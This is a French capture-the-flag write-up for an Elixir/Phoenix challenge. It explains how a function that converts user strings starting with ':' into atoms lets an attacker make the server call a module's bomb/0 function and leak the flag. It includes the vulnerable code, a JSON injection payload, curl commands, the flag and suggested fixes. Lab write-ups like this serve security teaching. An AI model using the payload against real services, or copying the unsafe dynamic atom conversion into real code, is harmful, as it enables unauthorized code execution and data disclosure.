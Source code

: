 # AtomBomb

## Description de l’épreuve

Le challenge "AtomBomb" est une épreuve de type web/service où l’on interagit avec un serveur écrit en Elixir. Le point de départ pour l'exploit était un service HTTP qui acceptait un JSON en POST sur une route ``/bomb_impacts``, censé contenir des informations sur une bombe (altitude, type d’explosion, puissance, etc.). Le but était de déclencher une exécution inattendue ou une erreur du serveur afin de récupérer un flag.

Contrairement aux services REST classiques, ce backend repose sur Elixir (et Phoenix), un framework fonctionnel. Le nom de l’épreuve et certains comportements du serveur suggéraient une vulnérabilité liée aux atoms, une structure de données particulière à Elixir.

## Analyse des artefacts et identification des indices

Le serveur s'attendait à recevoir un objet JSON avec une clé ``impact`` contenant les détails d’une bombe. Par exemple :
```json
{
  "impact": {
    "bomb": {
      "location": "florida",
      "altitude": "low_altitude",
      "power": 363,
      "explosion_type": 4
    }
  }
}
```

Une tentative de fuzzing a révélé que certaines erreurs côté serveur faisaient référence à des atoms inconnus, ce qui nous a amené à se concentrer sur le ``:`` dans Elixir, la fonction ``String.to_existing_atom/1`` ne crée pas de nouvel atom mais échoue si l’atom n’existe pas déjà. Cela ouvre la voie à un crash contrôlé ou même à une exécution de code si d'autres modules sont appelés dynamiquement.

Le code source du backend a confirmé cette intuition. Dans le controller :

```elixir
defmodule AtomBomb.PageController do
# (...)
  def get_bomb_impacts(conn, params) do
    params = AtomBomb.atomizer(params)
    danger_message = AtomBomb.calculate_bomb_danger_level(params.impact.bomb)
    render(conn, :danger_level, danger_message: danger_message)
  end
end
```

La ligne vulnérable est :
``params = AtomBomb.atomizer(params)``

Elle appelle la fonction ``atomizer/1`` définie dans le module AtomBomb, dont voici le passage critique :

```elixir
def atomizer(params) when is_binary(params) do
  if String.at(params, 0) == ":" do
    atom_string = String.slice(params, 1..-1//1)
    case string_to_atom(atom_string) do
      {:ok, val} -> val
      :error -> nil
    end
  else
    params
  end
end
```

Cette fonction convertit toute chaîne commençant par ``:`` en un atom Elixir existant. Si ce champ correspond à un nom de module valide (par exemple ``":Elixir.AtomBomb"``), il devient littéralement l’atom ``Elixir.AtomBomb``.
<br>
Ensuite, dans une autre partie du code, si ce champ est utilisé dans un ``apply/3`` (par exemple ``apply(mod, :bomb, [])``), cela permet d'exécuter n’importe quelle fonction ``bomb/0`` d’un module existant. Le module ``AtomBomb`` inclut justement une telle fonction :

```elixir
def bomb() do
  flag = case File.read("flag.txt") do
    {:ok, flag} -> flag
    {:error, _} -> "bctf{REDACTED}"
  end
  "The atom bomb detonated, and left in the crater there is a chunk of metal inscribed with #{flag}"
end
```

Alors, un test avec un payload du type :
```json
{
  "impact": ":Elixir.AtomBomb"
}
```
Et donc on obtiendrait:
`` danger_message = AtomBomb.calculate_bomb_danger_level(Elixir.AtomBomb.bomb)``

ce qui nous donne le flag.

## Recherches effectuées

### Documentation officielle : <br> https://hexdocs.pm/elixir/String.html#to_existing_atom/1

### Résumé utile :

* ``String.to_existing_atom("foo")`` échoue si ``:foo`` n'existe pas.

* Les atoms ne sont pas garbage-collected et peuvent faire planter l'application si on en crée trop (atom leak).

* Certaines fonctions essaient de convertir dynamiquement des chaînes en atoms pour appeler des modules/fonctions, c’est là qu’on peut injecter quelque chose de spécial.

## Tentatives et actions mises en œuvre

1. Envoi de payloads valides (structure correcte, sans injection) → réponses standards.

2. Envoi de chaînes invalides dans les clés ou valeurs → erreurs mais sans flag.

3. Hypothèse sur l’usage de to_existing_atom → tests avec valeurs "piégées".

4. Injection de ":Elixir.AtomBomb" dans le champ impact → déclenchement du flag.

## CWE associées

* **CWE-138: Improper Neutralization of Special Elements** — Usage dangereux de fonctions de conversion type eval, to_atom, etc.

* **CWE-502: Deserialization of Untrusted Data** — Même si ce n'est pas de la désérialisation au sens strict, il s’agit d’un traitement non-sécurisé de données entrantes.

## Flag obtenu

``bctf{n0w_w3_ar3_a1l_d3ad_:(_8cd12c17102ac269}``

Ce flag souligne bien mon état après l'avoir eu lol.

## Code des exploits et payloads

```sh
curl -X POST http://localhost:6888/bomb_impacts \
  -H "Content-Type: application/json" \
  --data '{"impact": ":Elixir.AtomBomb"}'
```
```sh
curl -X POST https://atom-bomb.atreides.b01lersc.tf/bomb_impacts \
  -H "Content-Type: application/json" \
  --data '{"impact": ":Elixir.AtomBomb"}'
```

Ce simple payload suffit à déclencher la réponse contenant le flag si le backend tente de convertir ce champ en atom et l’évalue ensuite.

## Propositions de correction

* Supprimer toute conversion dynamique non contrôlée de chaînes en atoms.

* Remplacer apply/3 par des appels directs à des fonctions explicites et sûres.

* Isoler et filtrer les paramètres utilisateur dès l’entrée (pattern matching strict).

* Si des atoms doivent être générés, valider contre une liste blanche ou utiliser une table de correspondance sécurisée.
